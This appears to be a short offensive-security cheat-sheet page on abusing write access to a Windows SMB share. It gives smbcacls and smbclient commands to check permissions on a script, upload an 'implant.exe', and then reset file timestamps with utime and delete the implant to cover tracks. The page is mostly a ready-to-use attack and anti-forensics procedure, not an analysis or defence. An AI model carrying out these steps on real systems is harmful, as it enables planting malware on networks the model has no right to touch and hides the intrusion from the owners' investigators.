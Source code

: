 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/DevTools/CleanUp.ps1"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/DevTools/CleanUp.ps1"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

## 03 - Cleanup


```
smb: \> help utime
HELP utimes:
		<file name> <create_time> <access_time> <mod_time> <ctime> set times

smb: \> utime file.txt [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS [YY]YY:MM:DD-HH:MM:SS
```

```
smb: \> rm implant.exe
```